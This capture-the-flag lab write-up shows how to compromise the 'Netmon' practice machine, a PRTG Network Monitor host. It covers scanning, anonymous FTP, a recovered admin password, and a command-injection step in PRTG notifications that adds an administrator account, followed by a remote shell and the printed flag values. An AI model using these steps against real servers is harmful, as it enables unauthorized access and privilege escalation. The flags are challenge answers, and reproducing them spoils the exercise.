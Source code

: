 ![Netmon.PNG](/assets/Machines/Easy/Netmon/Netmon.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.152
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.152
```
**Output**
```bash
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

3. Search more information about services and versiones with nmap
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN services
```

**Output**
```bash
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

* We look **Paessler PRTG bandwidth monitor**, remember this.

4. If you go to web page, don't login with default credentials of **PRTG Network Monitor**, in this case we need to search more information.



4. Login anonymous to ftp
```bash
──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| ftp 10.10.10.152           
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp>
```

5. Cat **user flag** in path `/Users/Public`
```bash
ftp> type user.txt
0ececa35409d8c9f292899124da6f953
```

6. Now, we try to obtain a credentials to login in panel web page, to do this, go to `/Programdata/Paessler/PRTG Network Monitor` and get configuration files.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| ls
ports  'PRTG Configuration.old'  'PRTG Configuration.old.bak'   services
```

7. Show the difference between two **PRTG Configurtaion** files
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| diff 'PRTG Configuration.old' 'PRTG Configuration.old.bak'
```

* Search in all difference and you find this credentials
```bash
>             <!-- User: prtgadmin -->
>             PrTg@dmin2018
```

8. Try to login in web page panel

![panelf.PNG](/assets/Machines/Easy/Netmon/panelf.PNG)

* In this case the password is incorrect, the machine realese three years ago, change **PrTg@dmin2018** -> **PrTg@dmin2019**

**Output**

![panels.PNG](/assets/Machines/Easy/Netmon/panels.PNG)


9. Now, search for exploits and you find this: https://www.codewatch.org/blog/?p=453

First, go to `notifications` and create a new 

![notifications.PNG](/assets/Machines/Easy/Netmon/notifications.PNG)

---
Next, change notification name and put this on **Execute Program**

![execute.PNG](/assets/Machines/Easy/Netmon/execute.PNG)

Command: `text.txt; net user <Username> <Password> /add; net localgroup Administrators <Previous Username> /add` 

---
Finally, save the notification.


10.  Click in order to execute a test of notification create previously

![en.PNG](/assets/Machines/Easy/Netmon/en.PNG)


11. Validate with crackmapexec if the user was create successfully
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| crackmapexec smb 10.10.10.152 -u '<User>' -p '<Password>' 
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\<User>:<Password> (Pwn3d!)
```

* The user was create successfully!

12. Login in with **evil-winrm** with previous credentials
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Netmon]
└─| evil-winrm -i 10.10.10.152 -u '<User>' -p '<Password>'
```

**Output**
```bash
*Evil-WinRM* PS C:\Users\edison2\Documents>
```

13. Cat **root flag**
```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> pwd

Path
----
C:\Users\Administrator\Desktop
```
---
```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
c97ee0568fef4dabe40345a8b0844f11
```


